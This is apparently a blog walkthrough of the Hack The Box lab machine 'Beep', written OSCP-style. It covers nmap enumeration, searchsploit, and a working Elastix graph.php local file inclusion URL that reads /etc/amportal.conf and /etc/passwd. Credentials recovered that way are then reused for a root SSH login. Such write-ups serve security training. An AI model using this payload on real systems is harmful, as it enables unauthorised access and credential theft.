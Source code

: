 ```yaml
---
layout: post
author: dalemazza
title: HTB - Beep OSCP Walkthrough
date: 2020-07-04
category: HTB
tags: HTB
---
```


<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/beep.png">
</p>
Hi guys today I am tackling beep, One of the oldest boxes on HTB. I will be doing this box without metasploit, OSCP style. This box is a Linux box rated easy.  

This box includes the following techniques:  
* nmap
* searchsploit
* Local File Inclusion

***
### Quick overview  

This box is running a webserver that has elastix installed on. After trying the default credentials I could not get access. I searched for exploits relating to elastix and found a few. After trying many of them one finally worked. This exploit took me straight to Root!

I Start **nmap** scan as per normal.    
`sudo nmap -A -T4 -p- 10.10.10.7`
```
Nmap scan report for 10.10.10.7
Host is up (0.012s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS PIPELINING UIDL RESP-CODES TOP LOGIN-DELAY(0) AUTH-RESP-CODE USER IMPLEMENTATION(Cyrus POP3 server v2) EXPIRE(NEVER) APOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: X-NETSCAPE NAMESPACE ACL Completed THREAD=ORDEREDSUBJECT CHILDREN CATENATE BINARY IMAP4rev1 MAILBOX-REFERRALS SORT=MODSEQ ID STARTTLS LISTEXT URLAUTHA0001 LIST-SUBSCRIBED IDLE CONDSTORE ANNOTATEMORE RENAME UIDPLUS ATOMIC RIGHTS=kxte IMAP4 LITERAL+ UNSELECT OK QUOTA NO MULTIAPPEND SORT THREAD=REFERENCES
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-04T16:22:18+00:00; +3m04s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesnt have a title (text/html; Charset=iso-8859-1).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|media device|PBX|WAP|specialized|printer|proxy server
Running (JUST GUESSING): Linux 2.6.X|2.4.X (95%), Linksys embedded (94%), Riverbed RiOS (94%), HP embedded (94%), WebSense embedded (93%), Gemtek embedded (93%)
OS CPE: cpe:/o:linux:linux_kernel:2.6.18 cpe:/o:linux:linux_kernel:2.6.27 cpe:/o:linux:linux_kernel:2.4.32 cpe:/h:linksys:wrv54g cpe:/o:riverbed:rios cpe:/o:linux:linux_kernel:2.6 cpe:/h:gemtek:p360
Aggressive OS guesses: Linux 2.6.18 (95%), Linux 2.6.9 - 2.6.24 (95%), Linux 2.6.9 - 2.6.30 (95%), Linux 2.6.27 (likely embedded) (95%), Linux 2.6.20-1 (Fedora Core 5) (95%), Linux 2.6.27 (95%), Linux 2.6.30 (95%), Linux 2.6.5 - 2.6.12 (95%), Linux 2.6.5-7.283-smp (SuSE Enterprise Server 9, x86) (95%), Linux 2.6.8 (Debian 3.1) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: 3m03s

TRACEROUTE (using port 111/tcp)
HOP RTT      ADDRESS
1   11.57 ms 10.10.14.1
2   11.72 ms 10.10.10.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/
```

That's a lot of stuff to enumerate! I like to start at port 80.  

The web server served me this page

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/1.png">
</p>  
### Fig 1. Elastix login page  
This page is from elastix. Elastix is an unified communications server software that brings together IP PBX, email, IM, faxing and collaboration functionality. It has a Web interface and includes capabilities such as a call center. After trying to default credentials I could not get access. Let's see if searchsploit has any exploits.

***
### What is searchsploit?
Searhsploit is a database of exploits. You can give it a program with or without the version and it will go out to several places to see if any exploits are found for that software. The results also give you the scripts used to exploit it.

```
searchsploit Elastix
```


<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/3.png">
</p>  
#### Fig 2. Searchsploit results  

Searchsploit has found a few exploits. I struggled to find the version of the the software running so I tried all the exploits. Eventually the **Elastix 2.2.0 - 'graph.php' Local File Inclusion** exploit worked!

Upon looking up the exploit on exploit DB [here](https://www.exploit-db.com/exploits/37637). I found that the exploit had a python script that executes an **LFI** in the graph.php current language path. I didn't need the whole script so i took the **LFI** location and tried it.  

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/lfi.png">
</p>  
#### Fig 3. LFI location  

Now lets see if the exploits runs.

```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action
```
<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/4.png">
</p>  
#### Fig 3. LFI exploits

It works! The page has a lot of text on the screen so i search for "pass"

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/5.png">
</p>  
#### Fig 3. Admin credentials

Looks like the we have some admin credentials. One thing I notice is that this page contains the user and passwords for several programs, The same password and username keeps popping up, maybe he use's that for everything?

Let's see what `/etc/passwd` gives us

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/6.png">
</p>  
#### Fig 4. etc/passwd

Here we can see that there is a user called 'fanis', we have not got a password for that yet. Let's be cheeky and see if I can read the `root.txt`

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/7.png">
</p>  
#### Fig 5. No access to root.txt

Worth a shot! Let's see if the admin reuses his credentials
```
ssh root@10.10.10.7
```
<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/10.png">
</p>  
#### Fig 6. SSH error

That is a weird error. After googling I found that this happens when connecting to old deprecated versions of **SSH**. We have to use a flag to connect to this machine.
```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
```
<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/8.png">
</p>  
#### Fig 7. root

It worked! Looks like we have root aswell! Time to get those flags!
```
cat root.txt

cat /home/fanis/user.txt
```

This was a fairly easy box, There are many methods to root this box but this is the one I found. Thanks
